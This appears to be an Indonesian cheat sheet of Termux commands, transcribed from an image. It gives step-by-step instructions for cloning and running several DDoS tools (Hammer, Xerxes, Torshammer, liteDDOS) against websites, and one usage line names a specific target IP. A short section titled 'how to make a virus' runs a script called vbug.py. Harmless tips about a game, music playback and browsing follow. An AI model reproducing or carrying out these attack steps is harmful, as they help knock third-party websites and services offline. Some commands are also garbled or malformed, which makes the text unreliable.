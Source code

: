 rm -rf toolsnya
3. cara buat virus
cd /sdcard
cd vbug
ls
chmod vbug.py
chmod -v vbug.py
python2 vbug.py
4. irssi
  /connet irc.freenode.net
/nick w3wandroid
/join #modol
_________________________
DDOS via Termux
————————————
1. Hammer
$ pkg update (tekan enter)
$ pkg upgrade (tekan enter)
$ pkg install python (tekan enter)
$ pkg install git (tekan enter)
$ git clone https://github.com/cyweb/hammer (tekan enter)
$ cd hammer (tekan enter)
$ python hammer.py (tekan enter)
$ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter)   104.27.146.125
2. Xerxes
$ apt install git
$ apt install clang
$ git clone https://github.com/zanyarjamal/xerxes
$ ls
$ cd xerxes
$ ls
$ clang xerxes.c -o xerxes
$ ls
$ ./xerxes (nama website) 80
3. Torshammer
$ pkg update
$ pkg install git
$ apt install tor
$ pkg install python2
$ git clone https://github.com/dotfighter/torshammer.git
$ ls
$ cd torshammer
$ python2 torshammer.py
4. liteDDOS
$ apt update
$ apt upgrade
$ pkg install git
$ pkg install python2
$ git clone https://github.com/4L13199/LITEDDOS
$ cd LITEDDOS
$ python2 liteDDOS.py
_________________________________________
Bermain moon-buggy
$ pkg install moon-buggy
$ moon-buggy
________________________________________
Musikan di termux
$ pkg install mpv
$ mpv/sdcard/lagu.mp3
/sdcard/ bisa di ganti sesuai letak musik
________________________________________
Browsing di termux
$ pkg install w3m